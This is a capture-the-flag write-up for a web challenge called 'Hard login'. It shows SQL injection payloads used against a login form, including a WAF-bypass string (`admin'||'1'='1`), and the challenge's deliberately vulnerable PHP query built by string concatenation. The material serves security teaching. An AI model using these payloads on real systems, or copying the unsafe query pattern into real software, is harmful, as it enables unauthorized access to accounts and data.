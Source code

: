 # Hard login
Category: Web

## Description
> Part 2 of Imperva's challenge
> 
> Do you know SQL? Can you think outside the box? Does WAF scare you?
> 

## Solution

The [previous challenge](JS_rocks.md)'s flag has left us with a hint: `can_you_bypass_the_login`.

The description talks about an SQL injection.

So, let's try the basics:
```
Username: ' or 1=1 -- 
Password: test
```

However, the WAF blocks us:
```
Access denied
Error 15
www.vulnet.zone
2020-12-17 20:03:12 UTC
What happened?
This request was blocked by the security rules
```

After some trial and error, we finally arrive to the following input:
```
Username: admin'||'1'='1
Password: test
```

We log into a bug bounty platform and get the flag: `cstechnion{the_company_likes_cookies}`.

The flag is a hint for the [next challenge](JS_and_HTML_are_best_friends.md).

Bonus: One of the challenges in the series allows us to dump the source code for the website. The vulnerable code is:
```php
$sql = "SELECT id, username, avatar, password FROM Users WHERE username ='".$username."' AND password = '".hash("sha512", $password)."'";
// echo $sql;
$result = mysqli_query($conn,$sql);
if(mysqli_num_rows($result)!=0) {
    session_start();
    // Store data in session variables
    $value = $result->fetch_array(MYSQLI_ASSOC);
    $_SESSION["loggedin"] = true;
    $_SESSION["id"] = $value["id"];
    $_SESSION["username"] = $username;
    $_SESSION["avatar"] = $value["avatar"];
    if (preg_match("/['\"|&(`]/i", $username)){
        $_SESSION["auth_bypass_flag"] = "cstechnion{the_company_likes_cookies}";
    }
```